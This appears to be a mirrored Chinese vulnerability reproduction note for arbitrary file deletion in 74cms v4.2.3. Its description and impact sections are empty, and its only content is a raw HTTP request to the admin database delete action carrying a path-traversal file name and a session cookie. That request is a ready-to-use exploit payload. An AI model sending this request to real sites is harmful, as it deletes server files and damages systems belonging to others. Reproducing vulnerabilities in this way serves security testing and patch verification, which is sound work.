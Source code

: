# 74cms v4.2.3 任意文件删除

> 原文：[https://www.zhihuifly.com/t/topic/2792](https://www.zhihuifly.com/t/topic/2792)

# 74cms v4.2.3 任意文件删除

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
GET /index.php?m=admin&c=database&a=del&name=/../../../../../ HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0
Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/index.php?m=admin&c=database&a=restore
Connection: close
Cookie: think_template=default; PHPSESSID=6d86a34ec9125b2d08ebbb7630838682; think_language=en
Upgrade-Insecure-Requests: 1 
```